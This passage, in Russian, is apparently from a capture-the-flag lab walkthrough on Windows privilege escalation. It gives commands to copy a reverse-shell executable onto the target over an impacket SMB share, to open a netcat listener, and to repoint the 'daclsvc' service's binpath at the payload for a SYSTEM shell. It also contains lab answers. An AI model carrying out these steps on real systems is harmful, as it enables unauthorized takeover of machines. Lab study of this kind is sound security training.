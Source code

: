 В Kali, в том же каталоге, что и reverse.exe:

`sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .`

В Windows (обновите IP-адрес на IP-адрес Kali):

`copy \\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe`

Протестируйте обратную оболочку, настроив прослушиватель netcat на Kali:

`sudo nc -nvlp 53`

Затем запустите исполняемый файл reverse.exe в Windows и перехватите оболочку:

`C:\PrivEsc\reverse.exe`

Исполняемый файл reverse.exe будет использоваться во многих задачах в этой комнате, поэтому не удаляйте его!

### Ответьте на вопросы ниже
Сгенерируйте исполняемый файл обратной оболочки и перенесите его на виртуальную машину Windows. Проверьте, работает ли он!
```commandline
Ответ не нужен
```

## Задание 3
Используйте accesschk.exe для проверки прав доступа учетной записи «user» к службе «daclsvc»:

`C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc`

Обратите внимание, что учетная запись «пользователь» имеет разрешение на изменение конфигурации службы (SERVICE_CHANGE_CONFIG).

Запросите службу и обратите внимание, что она работает с привилегиями SYSTEM (SERVICE_START_NAME):

`sc qc daclsvc`

Измените конфигурацию службы и задайте BINARY_PATH_NAME (binpath) для созданного вами исполняемого файла reverse.exe:

`sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""`

Запустите прослушиватель на Kali, а затем запустите службу, чтобы создать обратную оболочку, работающую с привилегиями SYSTEM:

`net start daclsvc`

### Ответьте на вопросы ниже
Каково исходное BINARY_PATH_NAME службы daclsvc?
```commandline
C:\Program Files\DACL Service\daclservice.exe
```

## Задание 4
Запросите службу « unquotedsvc»  и обратите внимание , что она работает с привилегиями SYSTEM (SERVICE_START_NAME), а BINARY_PATH_NAME не заключено в кавычки и содержит пробелы .

